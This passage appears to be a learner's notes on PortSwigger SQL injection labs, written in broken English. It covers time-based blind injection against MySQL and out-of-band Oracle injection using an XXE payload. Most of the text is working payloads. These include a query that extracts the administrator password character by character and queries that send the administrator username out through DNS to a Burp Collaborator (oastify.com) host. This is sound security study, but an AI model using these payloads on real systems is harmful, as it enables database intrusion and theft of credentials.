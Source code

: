 In case that was a mysql the sintax be like:

```sql
select username from users where id = '' or if(substr(database(),1,1)='a', sleep(5),sleep(0))-- -
```

```sql
select username from users where id = '' or if(substr((select password from users where username='administrator'),1,1)='a', sleep(5),sleep(0))-- -
```

# SQL injection with out-of-band interaction | SQL injection OOB

When nothing work, not event the time based inyection, you can try a OOD SQL Inyection. This is possible because the database have  activate the access to external resources(DNS, HTTP, SMB...). If you open the [cheatsheet of Portswigger](https://portswigger.net/web-security/sql-injection/cheat-sheet) in DNS lookup you find this query:

```oracle
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
```

Changes to-do in the query:
- Add the union clause
- Comment semicolons `;` and percents `%`
- Add the Collaborator(Burp pro)
- Check the collaborator and click on button "Poll now", you have to receive somes dns lookup.

```oracle
' union SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY %25 remote SYSTEM "http://skg17sprvajp3xd2p9i7ib1e85ew2mqb.oastify.com/"> %25remote%3b]>'),'/l') FROM dual-- -
```

This technique is a XXE Out-of-Band (OOB)

# Blind SQL injection with out-of-band data exfiltration

Now if we want to exfiltrate information throught dns?

If you set this query, you see that you can add subdomains to the url, the idea is take advantage of that creating a query

```oracle
' union SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY %25 remote SYSTEM "http://test.kwk6v6jjb8t6l3nzymqv9a90jrpid81x.oastify.com/"> %25remote%3b]>'),'/l') FROM dual -- -
```

And this is the way to create a query in the subdomain, you have to concadenate with pipes ||, then add '' and use a nestead query:
```oracle
' union SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY %25 remote SYSTEM "http://'||(select username from users where username='administrator')||'.kwk6v6jjb8t6l3nzymqv9a90jrpid81x.oastify.com/"> %25remote%3b]>'),'/l') FROM dual -- -
```
